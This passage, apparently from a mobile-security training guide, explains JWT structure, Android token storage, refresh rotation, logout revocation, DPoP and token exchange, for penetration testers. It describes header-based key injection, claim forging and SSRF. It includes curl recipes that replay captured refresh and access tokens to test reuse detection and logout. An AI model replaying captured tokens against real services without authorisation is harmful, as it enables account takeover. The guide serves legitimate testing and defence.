| Member | Required? | What it does | Why you care |
|---|---|---|---|
| `alg` | **Yes** | Names the signing algorithm | **Attacker-controlled.** The source of three failure classes. A verifier must have its own allow-list. RFC 8725 §3.1 |
| `typ` | No | Media type. `JWT`, or `at+jwt` for an RFC 9068 access token | `at+jwt` tells you it is meant for a resource server. Its absence tells you nothing. |
| `kid` | No | Key identifier — which key to verify with | **Attacker-controlled data used to LOCATE a key.** Traversal, SQL injection and SSRF all live here. §5.3 |
| `cty` | No | Content type, for nested JWTs | Rare. Its presence means the payload is another JWT. |
| `crit` | No | Extensions the verifier MUST understand | A verifier that ignores `crit` skips a control the issuer thought mandatory. RFC 7515 §4.1.11 |
| `jku` | No | **URL** to a JWKS | The token names its own key **and makes the verifier fetch a URL**. Key injection plus SSRF. |
| `x5u` | No | **URL** to an X.509 chain | Same. |
| `jwk` | No | The public key, **embedded in the token** | The token carries the key that verifies it. Perfectly circular. |
| `x5c` | No | An embedded certificate chain | Same, with certificate parsing attached. |
| `zip` | No | Compression, `DEF` | Compression before encryption enables compression-ratio side channels. Rare and worth noting. |

> **⚠️ Warning — the four headers that must be ignored**
> `jku`, `x5u`, `jwk` and `x5c` all let the **token** tell the **verifier** which key to
> trust. Every one of them is a complete authentication bypass if honoured naively: the
> attacker generates a keypair, signs a token they wrote with the private half, and points
> the header at the public half. Every signature check passes perfectly.
>
> RFC 8725 §3.8 is explicit: ignore these headers, or resolve them only against an
> allow-list of URLs you control. `scripts/jwt-analyse.py` flags any of them as CRITICAL.
>
> A second impact rides along with `jku` and `x5u`: the verifier **fetches a URL you
> chose**, from inside the server's network. That is server-side request forgery delivered
> by an authentication token, and it reaches internal services that are not otherwise
> exposed.

#### 3.2.2 The registered claims

RFC 7519 §4.1 defines seven. Every one is optional in the spec, and treating any of them as
optional in a verifier is a mistake.

| Claim | Name | Type | What it means | The failure |
|---|---|---|---|---|
| `iss` | Issuer | string | Who minted it | Never compared. Any issuer accepted. §5.6 |
| `sub` | Subject | string | The principal, unique **within the issuer** | Used alone as the account key, so two issuers' `sub` values collide. The key is the pair `(iss, sub)`. |
| `aud` | Audience | string **or array** | Who it is **for** | Never compared. The "Sign in with X" account takeover. §5.6 |
| `exp` | Expiration | NumericDate | Refuse after this | Missing, or "checked if present". §5.5 |
| `nbf` | Not before | NumericDate | Refuse before this | Rarely used, rarely checked. Low impact. |
| `iat` | Issued at | NumericDate | When it was minted | Enables a max-age policy stricter than `exp`. |
| `jti` | JWT ID | string | Unique identifier | The only hook a denylist or replay detector can hang on. §3.10 |

> **📖 Definition — NumericDate**
> Seconds since 1970-01-01T00:00:00Z, as a **JSON number**, ignoring leap seconds. Not
> milliseconds — a four-figure error that makes a token valid for fifty thousand years.
> Not a string. A verifier that accepts `"exp": "1786539271"` is running a lenient parser,
> and lenient parsers are where differential attacks start: try `exp` as a string, as
> `null`, as `true`, and as `99999999999999`.

Beyond the registered seven, three families appear constantly:

**OIDC claims** (OpenID Connect Core §2 and §5.1): `nonce`, `auth_time`, `acr`, `amr`,
`azp`, `at_hash`, `c_hash`, `sid`, plus profile claims `name`, `email`, `email_verified`,
`picture` and friends. [45-OAuth §3.12](../45-OAuth/README.md#312-openid-connect-oidc--authentication-done-properly)
owns the `id_token` validation algorithm; the claim reference is in [`cheatsheet.md`](cheatsheet.md).

**RFC 9068 access-token claims**: `client_id`, `scope`, `groups`, `roles`, `entitlements`,
plus `typ: at+jwt` in the header. This is the standard profile for JWT access tokens and
it is worth knowing because it says explicitly that the resource server **must** validate
`aud`.

**Vendor claims**: `tid` (Azure tenant), `ver`, `upn`, `oid`, `realm_access` (Keycloak),
`https://example.com/roles` (Auth0's namespaced convention). These are where authorisation
data usually hides, and where you should look first when hunting for a claim worth forging.

#### 3.2.3 The signature

| `alg` | Family | Key | Who can mint | Who can verify | Signature size |
|---|---|---|---|---|---|
| `HS256`/`384`/`512` | HMAC-SHA2 | One shared secret | Anyone who can verify | Anyone who can mint | 32 / 48 / 64 bytes |
| `RS256`/`384`/`512` | RSA PKCS#1 v1.5 | Private / public pair | Private-key holder only | Anyone with the public key | Key size / 8 (256 for 2048-bit) |
| `PS256`/`384`/`512` | RSA-PSS | Private / public pair | Private-key holder only | Anyone with the public key | Key size / 8 |
| `ES256`/`384`/`512` | ECDSA | Private / public pair | Private-key holder only | Anyone with the public key | 64 / 96 / 132 bytes, **raw r‖s** |
| `EdDSA` | Ed25519/Ed448 | Private / public pair | Private-key holder only | Anyone with the public key | 64 / 114 bytes |
| `none` | — | — | **Anyone** | **Anyone** | 0 bytes |

Three practical notes that cost people days:

**Symmetric versus asymmetric is not a performance choice, it is a trust-topology choice.**
With `HS256`, every party that can *verify* can also *mint*. That means a mobile app cannot
verify an `HS256` token without shipping the minting key — which it cannot do (see
[45-OAuth §1](../45-OAuth/README.md), the fundamental mobile truth). An `id_token` signed
with `HS256` is therefore a design error before you look at anything else.

**ECDSA in JOSE is raw `r‖s`, not DER.** Java's `Signature` class emits an ASN.1 DER
SEQUENCE. JOSE requires the two coordinates concatenated at fixed width. Getting this wrong
produces signatures that no server accepts, with an error message that points at the key.
`examples/05-DpopInterceptor.kt` contains the conversion and the explanation.

**`none` is a real registered algorithm.** RFC 7519 defines it for the case where integrity
is provided by some other mechanism — a JWT inside an already-authenticated envelope, for
instance. It exists legitimately, which is exactly why libraries implement it, which is why
it is available to be accepted by mistake.

### 3.3 Opaque tokens, and why the distinction changes everything

> **📖 Definition — opaque token**
> A token with **no internal structure the client can interpret**. It is a lookup key. All
> the state it refers to lives in the issuer's database. A random 32-byte value,
> base64url-encoded, is the canonical form.

An opaque token is not a lesser thing. Google's OAuth access tokens (`ya29.…`) are opaque.
GitHub's tokens are opaque and checksummed. Most banks use opaque tokens deliberately. The
choice is a genuine engineering trade, and knowing which side you are on redirects your
entire test plan.



The table that decides which you would recommend:

| Question | Opaque wins | JWT wins |
|---|---|---|
| Must a token be killable **immediately**? | ✅ Delete the row | ❌ Valid until `exp` unless you add a denylist |
| Must the resource server work when the AS is down? | ❌ | ✅ |
| Many resource servers, high request volume? | ❌ Introspection cost | ✅ |
| Do the claims contain anything sensitive? | ✅ Nothing is readable | ❌ The payload is public to the holder |
| Is the estate a single monolith? | ✅ Simplest thing that works | Over-engineering |
| Regulated, needs an audit trail per use? | ✅ The AS sees every use | ❌ The AS sees nothing after issuance |

> **🧠 Mental Model — the trade in one sentence**
> A JWT buys you **a network round trip per request** and pays for it with **the ability to
> change your mind**. Everything else follows.

A hybrid is common and worth recognising: **short-lived JWT access tokens** (5–15 minutes,
verified locally, so revocation latency is bounded by the lifetime) plus an **opaque
refresh token** (checked against a database on every use, so it can be killed instantly).
That design gets most of both, and when you see it, say so — it is evidence of a team that
thought about this.

### 3.4 The claim that is not encrypted

This deserves its own subsection because it is the single most common misunderstanding
about JWTs, held by developers and testers alike.

> **⚠️ Warning — the payload is ENCODED, not ENCRYPTED**
> Base64url is a *transport encoding*. Its purpose is to represent arbitrary bytes using
> characters that survive URLs and HTTP headers. It provides **no confidentiality
> whatsoever**. There is no key. Reversing it is one function call.
>
> ```bash
> # host — read any JWT's payload, no key, no tool, one line
> echo "$JWT" | cut -d. -f2 | tr '_-' '/+' | base64 -d 2>/dev/null; echo
> ```
>
> Anyone holding the token — a proxy, a log aggregator, a crash reporter, a browser
> extension, a malicious app that read the app's storage, a person looking over a
> shoulder — reads every claim. The signature proves the claims are **authentic**. It does
> nothing to make them **secret**.

The consequences run in both directions.

**For the developer:** do not put anything in a JWT you would not publish. Not internal
user IDs that map to a sequential database key, not email addresses if you can avoid it,
not feature-flag names that reveal unreleased products, not the reason an account was
flagged. The right question is: *if the resource server can look this up from `sub`, why is
it in the token?*

**For the tester:** the payload is free reconnaissance and it is the first place to look.
Internal hostnames, tenant identifiers, role vocabularies, environment names, the shape of
the permission model, and occasionally an actual secret. Feed it to
`scripts/jwt-analyse.py` and read the claim table.

If a payload genuinely must be confidential, the answer is **JWE** — and the better answer,
nine times in ten, is *do not put it in the token*.

### 3.5 Access, refresh, and ID tokens — three different things

These three arrive together, look similar, and do completely different jobs. Confusing them
is the origin of an entire class of vulnerability.

| | **Access token** | **Refresh token** | **ID token** |
|---|---|---|---|
| Answers | "What may the bearer do?" | "May I have another access token?" | "Who authenticated, when, how?" |
| `aud` | The **resource server** | The **authorization server** | The **client** |
| Sent to | The API, on every request | Only the AS's `/token` endpoint | **Nowhere.** Consumed by the client. |
| Format | Opaque or JWT | Almost always opaque | **Always a signed JWT** (OIDC requires it) |
| Lifetime | Minutes to an hour | Days to months | Minutes — it describes one login event |
| If stolen | Access until `exp` | **Mint new access tokens indefinitely** | Impersonate the user at any backend that does not check `aud` |
| Value to an attacker | Medium | **Highest** | High, and often the easiest |

> **⚠️ Warning — the two mistakes that follow from the table**
>
> **Mistake 1: sending the `id_token` to an API.** Its `aud` is the client. An API that
> accepts it is an API that does not check `aud`, which means it will accept **any** token
> that issuer signed, including one minted for an attacker's own registered client. That is
> the "Sign in with X" account takeover — [45-OAuth §5.1 Attack 6](../45-OAuth/README.md)
> has the full flow and its
> [CTF path C](../45-OAuth/labs/lab-04-ctf-the-borrowed-identity.md) makes you exploit it.
>
> **Mistake 2: treating the refresh token like the access token.** It is the crown jewel
> and it should be stored with more care, sent to exactly one endpoint, rotated on every
> use, and revoked on logout. An app that keeps both in the same plaintext preferences file
> has made the refresh token exactly as reachable as the thing it is supposed to protect.

### 3.6 Anatomy of a real token response

```json
{
  "access_token": "eyJhbGciOiJSUzI1NiIsInR5cCI6ImF0K2p3dCIsImtpZCI6InJzYS0yMDI2LTA4In0...",
  "token_type": "Bearer",
  "expires_in": 900,
  "refresh_token": "def50200a1b2c3d4e5f6...",
  "scope": "openid profile notes.read notes.write",
  "id_token": "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9..."
}
```

Nine things to read off that response before you do anything else:

| Field | Read it as |
|---|---|
| `token_type: "Bearer"` | Possession is sufficient. If it said `DPoP`, section 3.11 applies and the severity of everything else drops. |
| `expires_in: 900` | Fifteen minutes. Reasonable. Compare with the `exp` claim inside the token — a disagreement is worth a note. |
| `access_token` starts `eyJ` | Structured. Section 5's catalogue applies. Decode it. |
| `typ: at+jwt` in its header | RFC 9068. The resource server is *required* by that spec to check `aud`. Test whether it does. |
| `refresh_token` does **not** start `eyJ` | Opaque. Good: it can be revoked instantly. |
| `scope` echoed back | Compare against what was **requested**. A server that grants more than was asked for is a finding; one that grants less is normal. |
| `id_token` present | The `openid` scope was requested. Its `aud` is the client. Check the app does not send it to any API. |
| No `refresh_token` on a *refresh* response | Rotation is **off**. That single absence changes the severity of every storage finding in the report. |
| No `cnf` in the access token | Pure bearer. Section 3.11. |

### 3.7 Where a token lives on Android — the four options

This is the decision every Android developer makes and every tester over-reports. Here are
the four options, what each actually protects against, and the honest severity of finding
a token in each.

#### Option 1 — In memory only

```kotlin
// Android — the smallest attack surface there is
class TokenRepository {
    @Volatile private var accessToken: String? = null
}
```

| | |
|---|---|
| Protects against | Every offline attack. A backup, a forensic image, a world-readable file, an exported provider — none of them reach it. |
| Does not protect against | Code execution in the process: Frida, a Zygote-injected module, a malicious dynamically loaded library. |
| Cost | The user is logged out whenever the process dies. For most apps this is unacceptable, which is why it is rare. |
| **Finding severity** | **None.** This is correct design. If you dump the heap and find it, you have demonstrated that memory contains memory. |

Where it *is* used: banking apps that require re-authentication on every cold start, and
apps where the access token is short-lived and the refresh token is the only thing
persisted. That split is a good pattern and worth recommending.

#### Option 2 — Plain SharedPreferences

```java
// Android — what most apps do
prefs.edit().putString("refresh_token", token).apply();
```

On disk this is XML in `/data/data/<pkg>/shared_prefs/`, readable in full by
`cat` given the access. See [33-Storage §3.11](../33-Storage/README.md) for the file format.

| | |
|---|---|
| Protects against | Other apps, on a stock device, via the app sandbox (UID separation plus SELinux, [21-App-Sandbox](../21-App-Sandbox/README.md)) and file-based encryption at rest ([33-Storage §3.4](../33-Storage/README.md)). This is a **real** control, not a nominal one. |
| Does not protect against | Root. `adb backup` where `allowBackup` is true. A `run-as` on a debuggable build. Any path-traversal or exported-provider bug elsewhere in the app. A device the user has rooted themselves. |
| **Finding severity** | **Informational on its own.** It becomes Low/Medium/High depending on the *token*: its lifetime, its scope, whether it survives logout, and whether `allowBackup` puts it somewhere else. See §5.10. |

#### Option 3 — EncryptedSharedPreferences (Keystore-wrapped)

```kotlin
// Android — Jetpack Security, API 23+
val masterKey = MasterKey.Builder(context)
    .setKeyScheme(MasterKey.KeyScheme.AES256_GCM)
    .build()
val prefs = EncryptedSharedPreferences.create(
    context, "auth_v2", masterKey,
    EncryptedSharedPreferences.PrefKeyEncryptionScheme.AES256_SIV,
    EncryptedSharedPreferences.PrefValueEncryptionScheme.AES256_GCM
)
```

The master key is generated **inside the Android Keystore** and never exists as bytes the
app can read. The preference file contains Tink ciphertext. Keys are encrypted with
AES-SIV (deterministic, so lookups work); values with AES-GCM (authenticated, so tampering
is detected).

| | |
|---|---|
| Protects against | Everything in option 2, **plus** anyone who obtains a *copy of the file*: a backup, a forensic image, a leaked path, a world-readable mode. The ciphertext is useless off the device. |
| Does not protect against | **Code execution in the process.** The attacker calls `prefs.getString("refresh_token", null)` and receives the plaintext, exactly as the app does. This is [49-KeyStore §1.3](../49-KeyStore/README.md)'s extraction-versus-use distinction and it is the single most important sentence in that chapter. |
| **Finding severity** | Finding a token here on a rooted device with Frida is **not** a finding. It is a demonstration. Say what you learned that you did not already have. |

> **🔍 Pentester's Note**
> When a developer says "the token is safe, we use the Keystore", ask **what is in the
> Keystore**. Nine times in ten it is an AES key that wraps a token in SharedPreferences,
> with no authentication binding, in an app with no anti-instrumentation. That is a
> reasonable design and a genuine improvement. It is not "safe" against a rooted user and
> was never meant to be. [49-KeyStore §1.5](../49-KeyStore/README.md) lists the three
> sentences you will hear and how to answer each.
>
> The follow-up question is better: **is there a plaintext copy somewhere else?**
> [33-Storage §5.4](../33-Storage/README.md) is a whole vulnerability class about exactly
> that, and in practice the plaintext copy is in a cache file, a log line, or an in-memory
> database that was never encrypted.

#### Option 4 — AccountManager

```java
// Android — the token leaves the app's own sandbox
AccountManager am = AccountManager.get(context);
am.setAuthToken(account, "com.example.token", accessToken);
```

| | |
|---|---|
| What changes | The token is now in the **system** accounts database, not the app's directory. Access is mediated by the account type's owner and by the `authenticator` that declared it. |
| Protects against | Nothing extra by default. It is a *sharing* mechanism, not a *protection* mechanism. |
| Introduces | Cross-app reachability. Any app signed with the same certificate as the authenticator can read the token; on older APIs, `GET_ACCOUNTS` and the `authtokens` grant table widen this further. |
| **Finding severity** | Depends entirely on who else can reach it. Enumerate every package declaring the same account type before deciding. |

Section 4.2 traces `AccountManagerService` in AOSP, which is where the grant model actually
lives.

#### The decision, as a table

| Token | Recommended home | Why |
|---|---|---|
| Access token (short-lived) | Memory, re-fetched on cold start | Smallest surface, and losing it costs one refresh |
| Refresh token | `EncryptedSharedPreferences` | It must survive restarts, and it is the crown jewel |
| ID token | **Nowhere.** Consume and discard. | It describes one login event and has no ongoing purpose |
| Anything with a DPoP binding | As above, plus the key in the Keystore | The key is what matters; the token alone is inert |

### 3.8 The `exp` claim, and lifetime as a security property

A token's lifetime is the length of the window between theft and irrelevance. It is the
single most consequential number in the whole design, and it is a **server-side policy
decision** — no amount of client-side care shortens it.

| Token | Sensible lifetime | What a longer one costs |
|---|---|---|
| ID token | 5–15 minutes | It describes a past login; there is no reason to keep it |
| Access token, low privilege | 15–60 minutes | Theft window grows linearly |
| Access token, write or payment scope | **5–15 minutes** | The highest-value tokens should be the shortest-lived, and usually are not |
| Refresh token, consumer app | 30–90 days, **with rotation** | Without rotation this is a 90-day password |
| Refresh token, high assurance | Hours to days, with rotation and reuse detection | |
| Anything with no `exp` | — | **Permanent.** Critical, always. |

> **🧠 Mental Model — why short lifetimes work even though refresh tokens are long**
> It looks like a contradiction: the access token expires in 15 minutes, but the refresh
> token that mints new ones lasts 90 days, so what was gained?
>
> Two things. First, the **exposure profile differs by orders of magnitude**: the access
> token is sent to every resource server on every request, so it appears in proxies, logs,
> load balancers and third-party APIs constantly. The refresh token goes to exactly one
> endpoint, occasionally. Reducing the lifetime of the thing that is everywhere, and
> concentrating the long-lived risk in the thing that is almost nowhere, is the whole
> design.
>
> Second, **rotation with reuse detection makes the long lifetime self-limiting.** A stolen
> refresh token is not a 90-day credential; it is a credential that works until either
> party uses it twice, at which point the entire family dies loudly. Section 3.9.

Two failure modes are worth naming because they are not obvious:

**"Validate `exp` if present."** Defensive coding gone wrong. `if (claims.exp && now >
claims.exp) reject;` is bypassed by deleting `exp`. This is the same bug shape as
[45-OAuth](../45-OAuth/README.md)'s PKCE flaw — *"validate the verifier if we got one"* —
and it recurs because the code reads as careful. The rule: **absent means reject**, for
every mandatory check.

**Generous clock skew.** A verifier that allows an hour of skew "because a test was flaky"
has extended every token's life by an hour. Sixty seconds is generous; anything above five
minutes should be justified.

### 3.9 Refresh tokens: rotation and reuse detection

[45-OAuth §3.8](../45-OAuth/README.md#38-grant-type-7--refresh-token) covers the grant and
explicitly defers here for the mechanism. This is that discharge.

**Rotation** means: every time a refresh token is used, the AS issues a *new* one and
invalidates the old. `RT1` becomes `RT2` becomes `RT3`.

Rotation alone bounds the window. It does not detect anything, and on its own it is a
modest improvement.

**Reuse detection** is where the value is.



> **🧠 Mental Model — why revoking the whole family is correct**
> When `RT1` is presented twice, exactly one of two things happened: the legitimate client
> used it and an attacker replayed it, or an attacker used it and the legitimate client
> then tried. **The server cannot tell which, and does not need to.** It knows a copy
> exists somewhere it should not. Killing the family converts a silent, permanent
> compromise into a noisy, bounded one — and the cost of a false positive is a re-login,
> which is cheap.
>
> The design also gives you free detection: a spike in family revocations is an
> exfiltration signal, and it is one of the few token-layer signals that actually works.

**Testing it** is three requests and the interpretation table is unambiguous:

```bash
# host — RT1 captured from a device, per lab 03
CID="your-client-id"
AS="https://login.example.com/oauth2/token"

# 1. Use RT1 once. Expect success, and a NEW refresh token in the response.
curl -s -X POST "$AS" -d grant_type=refresh_token -d refresh_token="$RT1" \
     -d client_id="$CID" | tee r1.json | jq '{access:.access_token[0:12], refresh:.refresh_token[0:12]}'

# 2. Use RT1 AGAIN. Must fail.
curl -s -X POST "$AS" -d grant_type=refresh_token -d refresh_token="$RT1" \
     -d client_id="$CID" | jq .

# 3. Now use RT2, which was legitimately issued in step 1. If reuse detection works,
#    this must ALSO fail, because the family died when RT1 was replayed.
RT2=$(jq -r .refresh_token r1.json)
curl -s -X POST "$AS" -d grant_type=refresh_token -d refresh_token="$RT2" \
     -d client_id="$CID" | jq .
```

| Step 1 returned a new RT? | Step 2 | Step 3 | Verdict |
|---|---|---|---|
| No | Success | — | ❌ **No rotation.** A stolen refresh token is permanent access. High, and it raises the severity of every storage finding you have. |
| Yes | Success | — | ❌ Rotation is cosmetic — the old token still works. Same impact as no rotation. |
| Yes | Fail | Success | ⚠️ **Rotation without reuse detection.** Better: the attacker must win a race. But whoever refreshes first keeps the account and the other party is silently logged out, which is also the *only* signal the victim gets. Medium. |
| Yes | Fail | Fail | ✅ **Rotation with reuse detection.** Correct. Record it as a positive. |

> **🔍 Pentester's Note**
> Run this on a **test account you own** and expect to be logged out of it. That is the
> control working. Note the timing: some servers implement a short grace window (a few
> seconds) so that a client which retried a dropped request is not punished. A grace window
> is defensible; make sure it is seconds and not minutes, because a long one is
> indistinguishable from no reuse detection.

### 3.10 Revocation, and why logout usually does not work

This is the most reliably productive test in the chapter, it takes ninety seconds, and it
is skipped constantly.

> **⚠️ Warning — what "log out" means in most Android apps**
> ```java
> public void logout() {
>     prefs.edit().clear().apply();
>     startActivity(new Intent(this, LoginActivity.class));
> }
> ```
> That is the entire implementation, in a very large number of shipping applications. It
> makes the **screen** change. The tokens themselves remain valid at the authorization
> server and at every resource server until they expire — which, for a refresh token, may
> be ninety days.
>
> The user's mental model is "my session is over". What they got is "the app forgot". On a
> shared, resold, or repaired device that gap is the finding.

The test:

```bash
# host
# 1. Capture the access token and refresh token while logged in (lab 03).
# 2. Confirm the access token works.
curl -s -o /dev/null -w '%{http_code}\n' -H "Authorization: Bearer $AT" https://api.example.com/v1/me
# 200

# 3. Log out IN THE APP. Tap the button. Watch it return to the login screen.

# 4. Replay the same access token.
curl -s -o /dev/null -w '%{http_code}\n' -H "Authorization: Bearer $AT" https://api.example.com/v1/me
# 200  <- the finding

# 5. Replay the refresh token. This is the one that matters.
curl -s -X POST https://login.example.com/oauth2/token \
  -d grant_type=refresh_token -d refresh_token="$RT" -d client_id="$CID" | jq .
# a fresh access token  <- the serious finding
```

Interpreting it fairly, because this is where reports overreach:

| Observation | Verdict |
|---|---|
| Access token still works for a few minutes | **Expected** for a stateless JWT. Note it; do not inflate it. The remediation is a short lifetime, and if the lifetime is already short this is not a finding. |
| Access token still works for **hours** | The lifetime is too long. Medium. |
| **Refresh token still works after logout** | **The finding.** Logout must revoke the refresh token. RFC 7009 defines the endpoint. High in any app where devices are shared, resold, or lost. |
| "Log out of all devices" leaves tokens alive | **Higher.** The user was given an explicit security control and it does nothing. |
| Tokens survive a **password change** | **Highest.** A user changing their password after a suspected compromise is the canonical incident response, and it did not work. |

> **🧠 Mental Model — why revoking a JWT is genuinely hard**
> A JWT is verified locally, using a cached public key, with no call to the issuer. That is
> the entire point and the entire performance win. Revocation asks the resource server to
> know something that happened *after* the token was minted — which means asking somebody.
> The moment you ask, you have reintroduced the state a JWT existed to avoid.
>
> The four honest answers, in the order teams usually reach them:
>
> 1. **Short lifetimes.** Not revocation, but a bound on how long revocation is late. This
>    is the right answer for most systems and it costs nothing.
> 2. **A denylist keyed on `jti`.** Real revocation, and it works, but now every resource
>    server needs a shared, low-latency store — the state is back, and it is now
>    distributed.
> 3. **A "not valid before" timestamp per user.** Reject any token whose `iat` predates the
>    user's last logout or password change. One integer per user instead of one row per
>    token, which scales far better. Requires a lookup, but a cacheable one.
> 4. **Opaque tokens with introspection.** Stop pretending; pay the round trip.
>
> When you find revocation missing, recommend by size: option 1 for almost everyone, option
> 3 for anyone who needs "log out everywhere" to be real.

### 3.11 Sender-constraining: DPoP and mTLS

Everything so far assumed bearer semantics. This is the family of mechanisms that breaks
that assumption, and it is the only thing on this list that changes the severity of a
stolen token from "account compromise" to "an inert string".

> **📖 Definition — sender-constrained token**
> A token that is bound to a **key the legitimate client holds**. Presenting the token is
> not enough; the presenter must also demonstrate possession of the key. RFC 7800 defines
> the `cnf` ("confirmation") claim that carries the binding.

#### DPoP (RFC 9449)



What each check stops, precisely:

| Check | Attack it stops |
|---|---|
| `thumbprint(jwk) == cnf.jkt` | Using a stolen token with your own key. This is the binding itself. |
| Proof signature verifies | Fabricating a proof for somebody else's public key. |
| `htm` / `htu` match | Replaying a proof captured from a `GET /profile` against a `POST /transfer`. |
| `iat` recent | Replaying an old proof indefinitely. |
| `jti` unseen | Replaying the *same* proof verbatim within the window. |
| `ath == SHA256(token)` | Using a captured proof with a *different* token. |

> **⚠️ Warning — what DPoP does not do, and why saying otherwise damages a report**
> DPoP protects against an attacker who obtained the **token** but not the **key**. That is
> a large and realistic class: a leaked log, a stolen backup, a proxy, a compromised
> resource server, a token in a URL.
>
> It does **nothing** against an attacker with code execution in the app's process. They do
> not need to extract the Keystore key — they call the same signing routine and receive
> valid proofs. On a rooted device with Frida attached, DPoP buys you exactly zero. This is
> [49-KeyStore §1.3](../49-KeyStore/README.md)'s extraction-versus-use distinction again,
> and it is the reason a report must not claim DPoP "prevents token theft".

#### mTLS-bound tokens (RFC 8705)

The same idea, one layer down: the token is bound to the **client certificate** used in the
TLS handshake, via `cnf["x5t#S256"]`. Replay from anywhere without that certificate's
private key fails at the transport layer, before any application code runs.

| | DPoP | mTLS-bound |
|---|---|---|
| Layer | Application | Transport |
| Needs PKI | No | **Yes** — certificate issuance, distribution, rotation |
| Works through a TLS-terminating proxy | Yes | Only if the proxy forwards the certificate correctly |
| Mobile suitability | Good — the key lives in the Keystore | Awkward, but used in open banking and FAPI |
| Per-request cost | One ECDSA signature | None after the handshake |

#### The four tests that decide whether it is real

`examples/05-DpopInterceptor.kt` implements the client side and its closing comment lists
these; they are repeated here because they are the point.

1. **Baseline.** Normal request with a fresh proof. Expect 200.
2. **Downgrade.** Same token, `Authorization: Bearer <token>`, no `DPoP` header. **Expect
   401.** A 200 means the binding is optional, which means it is absent — an attacker
   simply does not send a proof. *This is the test that matters and the one most often
   skipped.*
3. **Proof replay.** Reuse a captured proof verbatim. Expect 401 on `jti`.
4. **Mismatch.** A valid proof from key A with a token bound to key B. Expect 401 on
   `cnf.jkt`.

Passing one proves nothing. Test 2 alone has invalidated more DPoP deployments than the
other three combined.

### 3.12 Token exchange, delegation and impersonation

RFC 8693 defines `grant_type=urn:ietf:params:oauth:grant-type:token-exchange`: present one
token, receive another, usually narrower. It appears in mobile estates when the app's token
must be traded for a downstream service's token.

The security question is always the same: **what is the exchange allowed to widen?**

| Parameter | Meaning | What to test |
|---|---|---|
| `subject_token` | The token being exchanged | Can you exchange a token you obtained for a *different* client? |
| `actor_token` | Who is acting on the subject's behalf (delegation) | Can you omit it and get impersonation instead of delegation? |
| `requested_token_type` | What you want back | Can you ask for an `id_token` and get one for another user? |
| `audience` / `resource` | Which service the new token is for | Can you name a service you have no access to? |
| `scope` | Requested scope | **Can you request more scope than the subject token carries?** RFC 8693 says no. Test it. |

Scope escalation at exchange is the productive finding here and it is the same shape as
scope escalation at refresh ([45-OAuth §3.12](../45-OAuth/README.md)): a server that
forgets to intersect the requested scope with the granted one lets you widen your own
access with no user interaction.

### 3.13 Version matrix

Tokens are protocol artefacts, so most of this table is about the *Android* facilities used
to store and carry them.

| Facility | Since | Notes |
|---|---|---|
| `android.util.Base64` with `URL_SAFE` | API 8 | The platform base64url. Flags: `URL_SAFE`, `NO_WRAP`, `NO_PADDING` — all three are needed for JOSE. |
| `java.util.Base64.getUrlEncoder()` | **API 26** | The Java 8 API. Below 26 you must use `android.util.Base64` or desugaring. A frequent crash on older devices. |
| `AccountManager` | API 5 | The shared token store. |
| `AndroidKeyStore` provider | API 18 | Software-backed initially. |
| Hardware-backed keys, `KeyGenParameterSpec` | API 23 | Also the floor for `EncryptedSharedPreferences`. |
| `setUserAuthenticationRequired` | API 23 | Binds a key to a recent unlock **or** to a single operation. Breaks background refresh — see [48 — Biometrics](../48-Biometrics/README.md) §3.6, which measures the difference. |
| StrongBox (`setIsStrongBoxBacked`) | API 28 | A discrete secure element, where present. |
| `EncryptedSharedPreferences` (Jetpack) | API 23 | `androidx.security:security-crypto`. Not part of AOSP. |
| Auto Backup on by default | API 23 | `allowBackup` defaults true. A token store is included unless excluded. |
| `android:dataExtractionRules` | API 31 | Replaces `fullBackupContent`; separates cloud backup from device-to-device transfer. Exclude the token store in **both**. |
| `adb backup` deprecated / restricted | API 31+ and OEM-dependent | Often unavailable in practice. Do not conclude "not backed up" from `adb backup` failing. |
| `SafetyNet` → Play Integrity | API 21 / ongoing | Where apps attest before the server issues a high-value token. |

> **⚠️ Warning — a version note that costs an afternoon**
> `java.util.Base64` is **API 26**. `android.util.Base64` is API 8. Code copied from a
> server-side JWT example uses the former and crashes with `NoClassDefFoundError` on any
> device below Oreo unless the build has core library desugaring enabled. When you see
> `android.util.Base64.decode(s, Base64.URL_SAFE | Base64.NO_WRAP)` in a decompiled app,
> that is a strong signal of hand-rolled JWT handling — grep for it in section 8.

---

## 4. Source Code Walkthrough (AOSP)

A token is a network artefact, so there is no `TokenManagerService` in AOSP to read. What
there *is* — and what matters for an Android token engagement — is the platform machinery
that **encodes**, **stores** and **shares** tokens. Three paths are worth tracing all the
way down, and each corresponds to a place tokens actually go wrong on this platform.

### 4.1 The map

| Path | What lives there |
|---|---|
| `frameworks/base/core/java/android/util/Base64.java` | The platform's base64 and **base64url** implementation. Every hand-rolled JWT handler on Android goes through this. |
| `frameworks/base/core/java/android/accounts/AccountManager.java` | The client API for the shared token store. |
| `frameworks/base/services/core/java/com/android/server/accounts/AccountManagerService.java` | The system service behind it, including the **grants** model that decides which app may read which token. |
| `frameworks/base/core/java/android/accounts/AbstractAccountAuthenticator.java` | What an app implements to become an authenticator and mint tokens for an account type. |
| `frameworks/base/core/java/android/app/SharedPreferencesImpl.java` | Where a token written with `putString` actually goes, and when. |
| `frameworks/base/keystore/java/android/security/KeyStore.java` and `frameworks/base/core/java/android/security/keystore/` | The Keystore surface that wraps an encrypted token store. [49-KeyStore §4](../49-KeyStore/README.md) traces this in full. |
| `external/conscrypt/` | The provider that does the actual signature verification if the app verifies a token locally. [34-Cryptography §4.2](../34-Cryptography/README.md) owns it. |

### 4.2 `android.util.Base64` — where base64url is actually implemented

This is the single most token-relevant class in the platform, because it is what the
difference between base64 and base64url is *made of*.

The class exposes flags that are combined into the `int` argument:

```java
// frameworks/base/core/java/android/util/Base64.java  (public constants)
public static final int DEFAULT     = 0;
public static final int NO_PADDING  = 1;
public static final int NO_WRAP     = 2;
public static final int CRLF        = 4;
public static final int URL_SAFE    = 8;
public static final int NO_CLOSE    = 16;
```

The interesting one is `URL_SAFE`. Internally the encoder holds two alphabet tables — the
standard RFC 4648 §4 alphabet and the URL-safe RFC 4648 §5 alphabet — and `URL_SAFE`
selects the second. The only difference between the two tables is the final two entries:

| Value | Standard alphabet | URL-safe alphabet |
|---|---|---|
| 62 | `+` | `-` |
| 63 | `/` | `_` |

Everything else — the 6-bit grouping, the padding rules, the line wrapping — is identical.
That is the whole of base64url: **two characters**, plus the convention of stripping `=`.

The decoder is more interesting from a security standpoint, because its table maps *both*
`+` and `-` to 62 and *both* `/` and `_` to 63. The consequence is worth stating clearly:

> **🔬 Under the Hood — Android's base64 decoder accepts both alphabets**
